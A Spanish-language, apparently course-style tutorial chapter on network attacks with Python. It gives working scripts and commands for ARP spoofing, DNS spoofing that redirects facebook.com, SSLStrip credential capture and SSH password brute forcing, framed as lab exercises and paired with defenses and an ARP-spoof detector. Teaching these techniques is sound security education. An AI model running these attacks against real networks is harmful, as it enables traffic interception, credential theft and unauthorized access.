| Herramientas       | Scapy + ARP Spoofing + Sniffing DNS          |
| Ejemplo            | Redirigir `facebook.com` a un servidor falso |
| Entorno de pruebas | Dos máquinas virtuales en red compartida     |
| Seguridad real     | DNSSEC, HTTPS, VPN, DoH                      |

---

[🔼](#índice)

---

## **238. DNS Spoofing con Python**

### 📘 ¿Qué es DNS Spoofing?

#### 🔹 En palabras simples:

**DNS Spoofing** (suplantación DNS) es cuando un atacante **responde falsamente** a una consulta DNS para redirigir a la víctima a una **IP falsa**, aunque haya escrito una dirección real.

#### 📌 Ejemplo:

- La víctima escribe `www.google.com`
- En lugar de ir a la IP real, va a `192.168.1.100` (un servidor falso que el atacante controla)
- El usuario ve un sitio falso, aunque escribió una dirección real

---

### 📡 ¿Cómo funciona el DNS normalmente?

1. La víctima quiere visitar `facebook.com`
2. Su PC pregunta al **servidor DNS**: “¿Cuál es la IP de `facebook.com`?”
3. El servidor DNS responde con la IP correcta.
4. El navegador conecta con esa IP.

---

### 😈 ¿Qué hace el atacante?

- Escucha las solicitudes DNS.
- Si detecta una consulta a un dominio objetivo, responde más rápido que el DNS real, con una **IP falsa**.

---

### 🛠️ Instalación del entorno (en Kali Linux o Ubuntu)

1. **Instala Python y Scapy**

```bash
sudo apt update
sudo apt install python3-pip net-tools
pip3 install scapy
```

2. **Verifica interfaz de red**

```bash
ip a
```

---

### 🧪 ¿Dónde practicar esto?

#### ✅ Laboratorio ideal:

- Dos máquinas virtuales:

  - Kali Linux (atacante)
  - Ubuntu o Windows (víctima)

- Ambas conectadas en **red interna o puenteada** (en VirtualBox)
- IPs del mismo rango (ej. 192.168.1.x)
- Usa `http://example.com` o un sitio HTTP de prueba

---

### 🔐 Paso previo: MITM con ARP Spoofing

Necesitas estar entre la víctima y el router. Puedes hacerlo con Bettercap, Ettercap o Scapy. Aquí un ejemplo básico con Scapy (solo como recordatorio):

```python
from scapy.all import ARP, send
import time

victim_ip = "192.168.1.5"
router_ip = "192.168.1.1"
attacker_mac = "tu:ma:ca:ta:ca:tu"

def arp_spoof():
    while True:
        pkt1 = ARP(op=2, pdst=victim_ip, psrc=router_ip)
        pkt2 = ARP(op=2, pdst=router_ip, psrc=victim_ip)
        send(pkt1, verbose=0)
        send(pkt2, verbose=0)
        time.sleep(2)

arp_spoof()
```

Una vez estés en el medio, puedes manipular las respuestas DNS.

---

### 💡 DNS Spoofing con Python y Scapy – Explicación

#### ¿Qué hace el script?

- Escucha solicitudes DNS (`UDP/port 53`)
- Si detecta que la víctima pregunta por un dominio específico (como `facebook.com`)
- El script **responde falsamente** con una IP falsa

---

### ✅ Código completo: `dns_spoofer.py`

```python
from scapy.all import *
import sys

# Cambiar según tu laboratorio
target_domain = "facebook.com"
fake_ip = "192.168.1.100"  # IP del servidor falso (puede ser tu Kali Linux)

def dns_spoof(packet):
    if packet.haslayer(DNS) and packet.getlayer(DNS).qr == 0:
        qname = packet[DNSQR].qname.decode()

        if target_domain in qname:
            print(f"[+] DNS request for {qname} -> Redirigiendo a {fake_ip}")

            spoofed_response = IP(dst=packet[IP].src, src=packet[IP].dst)/ \
                               UDP(dport=packet[UDP].sport, sport=53)/ \
                               DNS(id=packet[DNS].id, qr=1, aa=1, qd=packet[DNS].qd,
                                   an=DNSRR(rrname=qname, ttl=10, rdata=fake_ip))

            send(spoofed_response, verbose=0)

print("[*] Escuchando tráfico DNS...")
sniff(filter="udp port 53", prn=dns_spoof)
```

---

### 🧪 ¿Cómo probarlo?

#### 1. Haz ARP Spoofing para situarte como MITM

Puedes usar Bettercap o el ejemplo anterior.

#### 2. En la víctima, abre el navegador y visita:

```
http://facebook.com
```

#### 3. Si todo funciona:

- El navegador será redirigido a `192.168.1.100`
- Puedes tener un servidor web falso ahí con:

```bash
mkdir fake_site
cd fake_site
echo "<h1>¡Fuiste redirigido!</h1>" > index.html
python3 -m http.server 80
```

---

### 🔄 Para detener todo

1. Detén el script con `Ctrl + C`
2. Restaura la tabla ARP (o reinicia la red)
3. Limpia las reglas de iptables si las usaste:

```bash
sudo iptables --flush
```

---

### 🔐 ¿Cómo protegerse?

| Protección           | ¿Por qué ayuda?                                     |
| -------------------- | --------------------------------------------------- |
| HTTPS                | Aunque llegues al sitio falso, el navegador detecta |
| DNSSEC               | Asegura respuestas DNS con firmas digitales         |
| VPN                  | Cifra todas las consultas DNS                       |
| DNS over HTTPS (DoH) | Protege DNS desde el navegador                      |
| Monitor de red       | Detecta respuestas DNS sospechosas o duplicadas     |

---

### 🧠 Resumen general

| Elemento        | Detalle                                              |
| --------------- | ---------------------------------------------------- |
| Técnica         | DNS Spoofing con Python + Scapy                      |
| Objetivo        | Redirigir dominios reales a IPs falsas               |
| Herramientas    | Scapy, Python, ARP Spoofing                          |
| Entorno ideal   | Dos VMs en red interna (atacante y víctima)          |
| Prueba final    | Víctima escribe `facebook.com`, ve tu servidor falso |
| Protección real | HTTPS, DNSSEC, VPN, DoH                              |

---

[🔼](#índice)

---

## **239. Unas palabras sobre SSLStrip y HSTS**

### 🔐 ¿Qué es SSLStrip?

**SSLStrip** es una técnica de ataque **Man-In-The-Middle (MITM)** que:

- **Elimina la seguridad HTTPS**
- Engaña al usuario para que navegue por una versión **HTTP** (no segura) del sitio
- Permite al atacante ver credenciales o datos confidenciales que normalmente irían cifrados

---

### 🧠 ¿Cómo funciona SSLStrip?

#### 🕸 Escenario normal:

1. El usuario escribe `http://facebook.com`
2. Facebook **redirige automáticamente a** `https://facebook.com`
3. El navegador se conecta con seguridad

---

#### 😈 Escenario con SSLStrip:

1. El atacante está entre el usuario y el sitio (MITM con ARP spoofing)
2. La víctima escribe `http://facebook.com`
3. El servidor responde con una redirección a `https://facebook.com`
4. **El atacante intercepta y modifica esa redirección**
5. El usuario nunca llega al sitio HTTPS, sino a una **versión HTTP falsa**
6. El atacante ve todo en texto claro (login, contraseñas, etc.)

---

### 🛡️ ¿Qué es HSTS?

**HSTS (HTTP Strict Transport Security)** es una política de seguridad usada por sitios web para **forzar el uso de HTTPS siempre**.

#### ¿Qué hace?

- El navegador recuerda que `facebook.com` **solo debe cargarse por HTTPS**
- Incluso si el usuario escribe `http://facebook.com`, el navegador lo cambia automáticamente a `https://facebook.com` **antes de enviar la solicitud**

#### 🔐 Resultado:

- **SSLStrip NO FUNCIONA** si el sitio tiene HSTS
- HSTS protege contra este tipo de manipulación

---

### 🧪 ¿Dónde practicar esto?

#### Laboratorio seguro:

- 2 máquinas virtuales:

  - Kali Linux (atacante)
  - Ubuntu o Windows (víctima)

- Red interna o en puente (ambas en mismo rango)
- Prueba con un servidor web falso que **no tenga HSTS**
- Sitios como `testphp.vulnweb.com` pueden ser usados si tienen HTTP

---

### 🛠️ Instalación de SSLStrip en Kali Linux

SSLStrip ya viene instalado en Kali Linux, pero si lo necesitas:

```bash
sudo apt update
sudo apt install sslstrip
```

Verifica:

```bash
sslstrip --help
```

También necesitas:

- `iptables`
- `arpspoof` (de dsniff)
- `python3`

---

### ✅ Ejemplo completo: Ataque con SSLStrip

#### Paso 1: Posicionarse como MITM (ARP Spoofing)

```bash
sudo arpspoof -i eth0 -t 192.168.1.5 192.168.1.1
```

Y en otra terminal:

```bash
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.5
```

(Sustituye las IP por las de víctima y router)

---

#### Paso 2: Redirigir tráfico HTTPS a tu puerto SSLStrip

```bash
# Redirige el tráfico del puerto 80 a 8080
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

---

#### Paso 3: Iniciar sslstrip

```bash
sudo sslstrip -l 8080
```

Esto inicia el proxy malicioso en el puerto 8080, que intercepta peticiones HTTP y modifica redirecciones HTTPS.

---

#### Paso 4: En la víctima

1. Abre un navegador y visita `http://example.com` o similar
2. Si la víctima trata de entrar a un sitio HTTP con redirección a HTTPS (sin HSTS), **verás las credenciales en texto claro** en la terminal de sslstrip

---

### 🔎 ¿Dónde se guardan los datos?

Puedes guardar todo con:

```bash
sudo sslstrip -l 8080 -w datos.txt
```

---

### 💻 ¿Qué aspecto tiene la captura?

```bash
[*] 192.168.1.5 -> example.com [GET] /login
[*] username=admin&password=1234
```

---

### 🚫 ¿Por qué no funciona con muchos sitios?

La mayoría de sitios hoy:

- **Forzan HTTPS desde el navegador con HSTS**
- Están en la **lista precargada de HSTS** (como Google, Facebook, etc.)

---

### 🔐 ¿Cómo protegerse del SSLStrip?

| Protección               | ¿Por qué ayuda?                                       |
| ------------------------ | ----------------------------------------------------- |
| HTTPS en todo el sitio   | Obliga a cifrar siempre                               |
| HSTS                     | Impide volver a HTTP incluso si el usuario lo escribe |
| Lista HSTS precargada    | Navegadores ya saben qué sitios deben ir con HTTPS    |
| VPN                      | Cifra toda tu conexión, incluso si visitas HTTP       |
| Extensiones de navegador | Como HTTPS Everywhere (aunque ahora menos necesarias) |

---

### ✅ RESUMEN

| Tema                | Explicación breve                                      |
| ------------------- | ------------------------------------------------------ |
| SSLStrip            | Intercepta y elimina HTTPS redireccionando a HTTP      |
| HSTS                | Política de navegador que impide ese ataque            |
| Herramientas usadas | sslstrip, arpspoof, iptables                           |
| Requisitos          | Ser MITM primero (ARP Spoofing)                        |
| Resultado           | Puedes ver contraseñas en texto claro (si no hay HSTS) |
| Protección          | HTTPS, HSTS, VPN                                       |

---

[🔼](#índice)

---

## **240. Detectar ARP Spoofing con Python**

### 🧠 ¿Qué es ARP Spoofing?

#### ✅ ARP (Address Resolution Protocol)

Permite que una computadora descubra la dirección MAC correspondiente a una IP local.

> Ejemplo:
>
> “¿Quién tiene la IP 192.168.1.1?”
>
> El router responde: “Yo (con MAC AA\:BB\:CC\:DD\:EE\:FF)”

---

#### 😈 ¿Qué hace el ARP Spoofing?

Un atacante **responde falsamente** diciendo:

> “192.168.1.1 soy yo (con mi MAC)”

Así, la víctima **envía todo su tráfico al atacante** en lugar del router.
Es el paso previo a ataques como **Man-In-The-Middle (MITM)**.

---

### 🛡️ ¿Cómo detectar ARP Spoofing?

Podemos detectar **anomalías en la tabla ARP**, como:

- Una misma IP con **dos MAC distintas**
- Una MAC que **cambia constantemente**
- Una IP muy común (como el gateway) con una MAC que **no es la esperada**

---

### 🛠️ Requisitos e instalación

#### 1. ✅ Entorno recomendado

- Kali Linux, Parrot OS o Ubuntu
- Red local con otra máquina que actúe como atacante (opcional)

---

#### 2. ✅ Instalar Python y Scapy

```bash
sudo apt update
sudo apt install python3-pip net-tools
pip3 install scapy
```

---

### 🧪 Concepto de la detección

Con Python y Scapy, haremos lo siguiente:

1. Escanear IPs de la red local
2. Enviar solicitudes ARP (`who-has`)
3. Registrar las respuestas (IP → MAC)
4. Comparar: ¿Alguna IP tiene **varias MACs distintas**?

---

### ✅ Script completo: `detect_arp_spoof.py`

```python
from scapy.all import ARP, Ether, srp
import time
import os

# Dirección de red local (ajústalo a tu red)
# Por ejemplo: 192.168.1.0/24
target_ip = "192.168.1.0/24"

# Diccionario para almacenar la IP y la MAC observada
ip_mac_map = {}

def scan():
    print(f"[+] Escaneando la red {target_ip} en busca de cambios ARP...")

    # Crea el paquete ARP de consulta
    arp = ARP(pdst=target_ip)
    ether = Ether(dst="ff:ff:ff:ff:ff:ff")  # broadcast
    packet = ether/arp

    # Envía el paquete y recibe respuestas
    result = srp(packet, timeout=2, verbose=0)[0]

    spoof_detected = False

    for sent, received in result:
        ip = received.psrc
        mac = received.hwsrc

        if ip in ip_mac_map:
            # Si ya hay un registro y cambió la MAC → alerta
            if ip_mac_map[ip] != mac:
                print(f"[!] Posible ARP Spoofing detectado:")
                print(f"    IP: {ip}")
                print(f"    MAC original: {ip_mac_map[ip]}")
                print(f"    MAC sospechosa: {mac}")
                spoof_detected = True
        else:
            ip_mac_map[ip] = mac

    if not spoof_detected:
        print("[+] No se detectaron cambios sospechosos en esta pasada.")

def main():
    try:
        while True:
            os.system("clear")
            scan()
            time.sleep(5)  # Espera 5 segundos y vuelve a escanear
    except KeyboardInterrupt:
        print("\n[+] Detección detenida por el usuario.")

main()
```

---

### 🔧 ¿Cómo ejecutarlo?

1. Guarda el código como `detect_arp_spoof.py`
2. Dale permisos (opcional):

```bash
chmod +x detect_arp_spoof.py
```

3. Ejecútalo con privilegios:

```bash
sudo python3 detect_arp_spoof.py
```

---

### 🧪 Simula un ataque (en otra terminal)

En una segunda terminal, simula ARP Spoofing (opcional):

```bash
sudo apt install dsniff
sudo arpspoof -i eth0 -t 192.168.1.X 192.168.1.1
```

(Usa IP de tu víctima real)

El script detectará el cambio en la MAC del router.

---

### 🧠 ¿Cómo protege esto?

| Técnica de detección | ¿Qué busca?                                   |
| -------------------- | --------------------------------------------- |
| Revisión periódica   | Cambios repentinos en la tabla ARP            |
| Comparación IP-MAC   | Inconsistencias por IP repetida con MAC nueva |
| Avisos visuales      | Alertas cuando hay comportamiento sospechoso  |

---

### 🔐 ¿Cómo proteger una red real?

| Protección                    | ¿Qué hace?                                            |
| ----------------------------- | ----------------------------------------------------- |
| IP-MAC Binding (estático)     | Asocia IPs a MACs manualmente (en switches/firewalls) |
| ARP Watch                     | Detecta y alerta de cambios ARP                       |
| Switches gestionables (Cisco) | Previenen ARP poisoning (con Port Security)           |
| VPN                           | Cifra el tráfico, incluso si el atacante intercepta   |

---

### ✅ RESUMEN GENERAL

| Elemento          | Detalle                                      |
| ----------------- | -------------------------------------------- |
| Técnica           | Detección de ARP Spoofing                    |
| Herramienta usada | Python + Scapy                               |
| Método            | Comparación IP ↔ MAC para detectar anomalías |
| Frecuencia        | Escaneo automático cada 5 segundos           |
| Protección real   | Port Security, IP/MAC Binding, VPN, IDS      |

---

[🔼](#índice)

---

## **241. Fuerza Bruta SSH con Python**

### 🧠 ¿Qué es un ataque de fuerza bruta?

Es un tipo de ataque donde el atacante prueba **muchas combinaciones posibles** de usuario y contraseña hasta encontrar la correcta.

---

### 🖧 ¿Qué es SSH?

**SSH (Secure Shell)** es un protocolo que permite conectarse de forma remota a una máquina Linux o Unix, por lo general usando:

```bash
ssh usuario@ip
```

Ejemplo:

```bash
ssh root@192.168.1.10
```

---

### 🛠️ ¿Qué usaremos para el ataque?

Python + la biblioteca **paramiko**, que permite conectarse a servidores SSH desde código Python.

---

### ✅ PASOS PREVIOS

#### 1. 📦 Instalar `paramiko`

```bash
pip install paramiko
```

---

#### 2. 🧪 Crear un entorno de laboratorio

Puedes usar:

- 🖥️ Una **máquina virtual con Ubuntu Server**
- IP local: `192.168.1.10`
- Usuario: `prueba`
- Contraseña: `123456` (puedes cambiarlo)
- Asegúrate de tener **SSH habilitado** en esa VM:

```bash
sudo apt install openssh-server
sudo systemctl start ssh
```

---

### 🐍 Script en Python para Fuerza Bruta SSH

#### ✏️ Paso 1: Crea un archivo `brute_ssh.py`

```python
import paramiko
import socket

# Datos del objetivo
host = "192.168.1.10"
port = 22
usuario = "prueba"

# Lista de contraseñas para probar
passwords = [
    "123456", "admin", "password", "prueba123", "root", "qwerty"
]

def intentar_conexion(host, port, user, password):
    cliente = paramiko.SSHClient()
    cliente.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        cliente.connect(hostname=host, port=port, username=user, password=password, timeout=3)
        print(f"[✅] ¡Contraseña encontrada!: {password}")
        cliente.close()
        return True
    except paramiko.AuthenticationException:
        print(f"[✗] Contraseña incorrecta: {password}")
    except socket.timeout:
        print("[!] Tiempo de espera agotado al intentar conectar")
    except Exception as e:
        print(f"[!] Error inesperado: {e}")
    return False

# Ejecutar ataque
for password in passwords:
    if intentar_conexion(host, port, usuario, password):
        break
```

---

#### ✅ Explicación del código

| Parte del código          | ¿Qué hace?                                            |
| ------------------------- | ----------------------------------------------------- |
| `paramiko.SSHClient()`    | Crea una instancia para conectarse a SSH              |
| `connect(...)`            | Intenta conectarse usando usuario y contraseña        |
| `AuthenticationException` | Se lanza cuando la contraseña es incorrecta           |
| Lista `passwords`         | Diccionario simple (puedes cambiarlo por uno externo) |
| Bucle `for`               | Prueba cada contraseña una por una                    |

---

### 🧪 ¿Cómo probarlo?

1. En tu Kali o máquina atacante, guarda el script:

```bash
nano brute_ssh.py
```

2. Luego ejecuta:

```bash
python3 brute_ssh.py
```

3. Si una de las contraseñas es correcta, verás:

```
[✅] ¡Contraseña encontrada!: 123456
```

---

### 🔄 Bonus: Leer contraseñas desde un archivo externo

Modifica esta parte del código:

```python
# Leer contraseñas desde un archivo
with open("passwords.txt", "r") as file:
    passwords = file.read().splitlines()
```

Y crea un archivo `passwords.txt` con contraseñas:

```txt
123
123456
qwerty
prueba123
```

---

### 🔐 ¿Cómo protegerse de esto?

| Protección                      | ¿Qué hace?                                      |
| ------------------------------- | ----------------------------------------------- |
| Bloqueo por intentos (fail2ban) | Bloquea IPs después de varios intentos fallidos |
| Usar claves SSH (no contraseña) | Elimina el vector de ataque de contraseñas      |
| Cambiar puerto por defecto (22) | Reduce los escaneos automatizados               |
| Desactivar login para root      | Obliga a usar usuarios menos conocidos          |

---

### 🧠 RESUMEN

| Elemento               | Descripción                            |
| ---------------------- | -------------------------------------- |
| Ataque                 | Fuerza bruta contra SSH                |
| Herramienta usada      | Python + paramiko                      |
| Dificultad             | Fácil de implementar en laboratorio    |
| Uso real               | Solo con fines educativos y éticos     |
| Protección recomendada | Fail2ban, claves SSH, cambio de puerto |

---

[🔼](#índice)

---

## **242. DHCP Listener con Python**

### 🧠 ¿Qué es DHCP?

**DHCP (Dynamic Host Configuration Protocol)** es un protocolo que asigna automáticamente a los dispositivos de una red:

- Dirección IP
- Máscara de subred
- Gateway
- Servidor DNS

> Ejemplo: Cuando te conectas al WiFi, no configuras nada: el router (servidor DHCP) te asigna una IP automáticamente.

---

### 👂 ¿Qué es un DHCP Listener?

Es una herramienta que **escucha los paquetes DHCP** en una red, para:

- Ver qué dispositivos están solicitando IPs
- Detectar si hay servidores DHCP maliciosos
- Hacer auditoría o análisis de red

---

### 🧪 ¿Qué podemos detectar?

- Dispositivos nuevos que se conectan
- IPs asignadas por el router
- Ataques como **DHCP Starvation** o **Rogue DHCP Server**

---

### 🛠️ Requisitos e instalación

#### ✅ 1. Tener Python 3 instalado

```bash
python3 --version
```

Si no lo tienes:

```bash
sudo apt update
sudo apt install python3 python3-pip
```

---

#### ✅ 2. Instalar **Scapy**

`scapy` es una poderosa librería de Python para trabajar con paquetes de red.

```bash
pip3 install scapy
```

---

### 🧪 ¿Cómo funciona el DHCP en red?

Cuando un dispositivo se conecta:

1. **DHCP Discover** → el cliente dice: “¿Alguien me puede dar una IP?”
2. **DHCP Offer** → el servidor responde: “Te puedo dar la IP 192.168.1.10”
3. **DHCP Request** → el cliente responde: “Quiero esa IP”
4. **DHCP ACK** → el servidor confirma: “Te la asigno”

Como listener, **capturaremos esos mensajes**.

---

### ✅ Script completo: DHCP Listener con Scapy

```python
from scapy.all import *
import sys

def handle_dhcp_packet(packet):
    if packet.haslayer(DHCP):
        mac = packet[Ether].src
        hostname = None

        if packet.haslayer(DHCP) and packet[DHCP].options:
            for option in packet[DHCP].options:
                if option[0] == 'hostname':
                    hostname = option[1]
                elif option[0] == 'message-type':
                    msg_type = option[1]

        msg_types = {
            1: "Discover",
            2: "Offer",
            3: "Request",
            4: "Decline",
            5: "ACK",
            6: "NAK",
            7: "Release",
            8: "Inform"
        }

        msg_str = msg_types.get(msg_type, "Desconocido")
        print(f"[📡] {msg_str} - MAC: {mac} - Hostname: {hostname}")

def main():
    print("⏳ Escuchando paquetes DHCP (Ctrl+C para salir)...")
    sniff(filter="udp and (port 67 or 68)", prn=handle_dhcp_packet, store=0)

if __name__ == "__main__":
    if os.geteuid() != 0:
        print("❌ Debes ejecutar este script como root (sudo)")
        sys.exit(1)
    main()
```

---

### ✅ ¿Qué hace este script?

| Parte                  | ¿Qué hace?                                                |
| ---------------------- | --------------------------------------------------------- |
| `sniff()`              | Captura tráfico UDP en los puertos 67 y 68 (DHCP)         |
| `handle_dhcp_packet()` | Filtra paquetes DHCP y extrae datos                       |
| `msg_type`             | Determina el tipo de mensaje DHCP (Discover, Offer, etc.) |
| `MAC` y `Hostname`     | Muestra el dispositivo que hace la solicitud              |

---

### ▶️ ¿Cómo ejecutarlo?

1. Guarda el script como `dhcp_listener.py`
2. Ejecuta con `sudo` porque requiere permisos para sniffing:

```bash
sudo python3 dhcp_listener.py
```

3. Conéctate a la red desde otro dispositivo o reinicia tu adaptador de red. Verás algo como:

```
[📡] Discover - MAC: 3c:15:c2:aa:bb:cc - Hostname: laptop-de-gustavo
[📡] Request  - MAC: 3c:15:c2:aa:bb:cc - Hostname: laptop-de-gustavo
[📡] ACK      - MAC: 3c:15:c2:aa:bb:cc - Hostname: laptop-de-gustavo
```

---

### 🛡️ ¿Cómo se puede usar este script en ciberseguridad?

| Uso                                | Ejemplo práctico                  |
| ---------------------------------- | --------------------------------- |
| Detectar equipos conectándose      | Detectas intrusos en la red WiFi  |
| Verificar si hay 2 servidores DHCP | Alerta si hay un DHCP malicioso   |
| Hacer auditoría de IPs y MACs      | Registrar dispositivos conectados |

---

### 🧠 Extra: ¿Cómo prevenir ataques relacionados con DHCP?

| Ataque                  | Prevención                                    |
| ----------------------- | --------------------------------------------- |
| Rogue DHCP Server       | Configura switches con DHCP Snooping          |
| DHCP Starvation         | Limita el número de IPs disponibles o usa IDS |
| Escucha de tráfico DHCP | Usar VLANs y control de acceso físico         |

---

### 📦 ¿Qué más se podría agregar?

- Guardar los logs en un archivo `.csv`
- Enviar alertas por email o Telegram
- Integrar con Wireshark o herramientas como ELK

---

### ✅ RESUMEN FINAL

| Elemento     | Detalle                                              |
| ------------ | ---------------------------------------------------- |
| ¿Qué es?     | Un script que escucha tráfico DHCP                   |
| ¿Para qué?   | Detectar solicitudes de IP, identificar dispositivos |
| ¿Librería?   | `scapy`                                              |
| ¿Cómo corre? | `sudo python3 dhcp_listener.py`                      |
| ¿Ejemplo?    | Muestra Discover, Offer, Request, ACK, etc.          |

---

[🔼](#índice)

---

## **243. MAC Spoofing con Python**

### 🧠 ¿Qué es el MAC Spoofing?

**MAC Spoofing** consiste en cambiar la **dirección MAC** (Media Access Control) de tu adaptador de red por otra.

Una dirección MAC es un identificador único de 48 bits (como `00:1A:2B:3C:4D:5E`) asignado por el fabricante a tu tarjeta de red.

### ¿Para qué se usa?

- Ocultar la identidad en una red
- Evitar filtros por MAC en routers
- Suplantar dispositivos
- Bypass en portales cautivos (WiFi públicos)
- Probar seguridad en laboratorios

---

### ⚠️ Advertencia Legal y Ética

> Este contenido es **exclusivamente educativo**, para **entornos controlados o laboratorios de pruebas**.
>
> Hacer MAC spoofing en redes ajenas sin autorización es **ilegal** y **antiético**.

---

### 🛠️ ¿Qué necesitas?

- Python 3
- Acceso de administrador (sudo)
- Librería `subprocess` (incluida en Python por defecto)
- Conocimiento básico de interfaces de red (`ifconfig` o `ip`)

---

### ✅ Paso 1: Verifica tu interfaz y MAC

En Linux:

```bash
ip link show
```

Ejemplo de salida:

```
2: wlan0: <BROADCAST,MULTICAST> ...
    link/ether 3c:15:c2:aa:bb:cc brd ff:ff:ff:ff:ff:ff
```

Tu interfaz de red podría ser `wlan0`, `eth0` o similar.

---

### ✅ Paso 2: Instalar Python y preparar el entorno

Asegúrate de tener Python 3:

```bash
python3 --version
```

Y usa `sudo` para ejecutar el script luego, ya que modificar una MAC requiere permisos de administrador.

---

### ✅ Paso 3: Script de MAC Spoofing en Python

#### 📄 Crea un archivo llamado `mac_spoofer.py`:

```python
import subprocess
import re
import argparse
import os
import sys

def obtener_mac_actual(interface):
    resultado = subprocess.check_output(["ip", "link", "show", interface]).decode()
    patron = r"link/ether\s([\da-fA-F:]{17})"
    mac = re.search(patron, resultado)
    if mac:
        return mac.group(1)
    return None

def cambiar_mac(interface, nueva_mac):
    print(f"[🛠️] Cambiando MAC de {interface} a {nueva_mac}")
    subprocess.call(["ip", "link", "set", interface, "down"])
    subprocess.call(["ip", "link", "set", interface, "address", nueva_mac])
    subprocess.call(["ip", "link", "set", interface, "up"])

def validar_mac(mac):
    patron = r"^([0-9A-Fa-f]{2}:){5}[0-9A-Fa-f]{2}$"
    return re.match(patron, mac)

def main():
    if os.geteuid() != 0:
        print("❌ Este script requiere privilegios de superusuario. Usa 'sudo'.")
        sys.exit(1)

    parser = argparse.ArgumentParser(description="Script de MAC Spoofing con Python")
    parser.add_argument("-i", "--interface", required=True, help="Nombre de la interfaz (ej. wlan0)")
    parser.add_argument("-m", "--mac", required=True, help="Nueva dirección MAC (ej. 00:11:22:33:44:55)")

    args = parser.parse_args()

    if not validar_mac(args.mac):
        print("❌ Formato de MAC inválido. Usa el formato: 00:11:22:33:44:55")
        sys.exit(1)

    mac_actual = obtener_mac_actual(args.interface)
    print(f"[📡] MAC actual: {mac_actual}")

    cambiar_mac(args.interface, args.mac)

    nueva_mac = obtener_mac_actual(args.interface)
    if nueva_mac.lower() == args.mac.lower():
        print(f"[✅] MAC cambiada exitosamente a {nueva_mac}")
    else:
        print("[❌] No se pudo cambiar la MAC.")

if __name__ == "__main__":
    main()
```

---

### ✅ ¿Cómo ejecutarlo?

1. Guarda el archivo como `mac_spoofer.py`.
2. Corre el script con permisos de root:

```bash
sudo python3 mac_spoofer.py -i wlan0 -m 00:11:22:33:44:55
```

Cambia `wlan0` por tu interfaz real.

---

### 🧪 Resultado esperado:

```
[📡] MAC actual: 3c:15:c2:aa:bb:cc
[🛠️] Cambiando MAC de wlan0 a 00:11:22:33:44:55
[✅] MAC cambiada exitosamente a 00:11:22:33:44:55
```

Puedes verificar también con:

```bash
ip link show wlan0
```

---

### 🛡️ ¿Cómo protegerse del MAC Spoofing?

| Defensa                           | Descripción                              |
| --------------------------------- | ---------------------------------------- |
| Filtrado por MAC con 802.1X       | Autenticación de red a nivel de switch   |
| DHCP Snooping + Port Security     | Detecta cambios sospechosos de MAC       |
| Monitorizar logs de red           | Ver cambios de MAC o dispositivos nuevos |
| Wi-Fi enterprise con certificados | Asocia usuarios a dispositivos únicos    |

---

### ✅ RESUMEN

| Elemento        | Detalles                                                    |
| --------------- | ----------------------------------------------------------- |
| ¿Qué hace?      | Cambia la MAC de una interfaz en Linux                      |
| Herramientas    | Python 3, subprocess, ip link                               |
| Requiere root   | ✅ Sí                                                       |
| Ejecución       | `sudo python3 mac_spoofer.py -i wlan0 -m XX:XX:XX:XX:XX:XX` |
| Uso recomendado | Solo en laboratorios de práctica                            |

---

[🔼](#índice)

---

| **Inicio**         | **atrás 5**                                                                         | **Siguiente 7**                                                            |
| ------------------ | ----------------------------------------------------------------------------------- | -------------------------------------------------------------------------- |
| [🏠](../README.md) | [⏪](./4_5_Python_Hacking_y_Explotacion_de_Vulnerabilidades_en_Hosts_con_Python.md) | [⏩](./4_7_Python_Hacking_y_Explotacion_de_aplicaciones_Web_con_Python.md) |
